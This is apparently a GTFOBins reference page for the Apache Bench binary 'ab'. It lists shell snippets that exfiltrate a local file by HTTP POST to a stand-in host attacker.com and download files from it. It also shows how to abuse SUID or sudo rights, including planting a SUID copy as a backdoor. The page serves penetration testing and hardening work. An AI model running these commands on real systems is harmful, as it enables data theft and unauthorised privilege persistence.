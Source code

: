 # GTFOBin: ab

## File upload

It can exfiltrate files on the network.

Upload local file via HTTP POST request.

```
URL=http://attacker.com/
LFILE=file_to_send
ab -p $LFILE $URL
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.

```
URL=http://attacker.com/file_to_download
ab -v2 $URL
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Upload local file via HTTP POST request.

```
sudo install -m =xs $(which ab) .

URL=http://attacker.com/
LFILE=file_to_send
./ab -p $LFILE $URL
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Upload local file via HTTP POST request.

```
URL=http://attacker.com/
LFILE=file_to_send
sudo ab -p $LFILE $URL
```